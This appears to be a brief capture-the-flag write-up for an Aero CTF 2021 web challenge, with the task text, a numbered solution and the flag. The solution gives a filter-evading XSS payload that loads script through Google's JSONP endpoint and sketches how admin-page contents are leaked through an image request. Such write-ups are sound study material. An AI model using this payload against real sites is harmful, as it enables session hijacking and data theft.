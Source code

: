 # Aero CTF 2021

## Web | Not received prize 

### Description

> Dear friend, I recently had a tragedy, I was advised to use the services of a company that gives a comforting gift for a review.
> 
> I left a review but did not receive a gift, can you figure it out? 
> 
> Here is the site {URL:13666}


### Idea
    A site with poor filtering from XSS, through the backconnect vulnerability we send to the local admin panel, to the page with a flag (but redirecting how to view it, you need to solve an example) 
    
### Solution
    1. Send <scri<>pt/src="https://www.google.com/complete/search?client=chrome&jsonp={p}"></sc<>ript>, Where p - payload
    2. Get the source code of the page through the backconnect image 
    3. Find a link to receive a prize 
    4. Get the source code of the prize page
    5. Sending a request to get a mathematical example
    6. Submitting the answer to the math example
    7. download the picture
    8. get the flag 

### Flag

`Aero{8b086da1e3f973ec9f53b10339aa244a}`
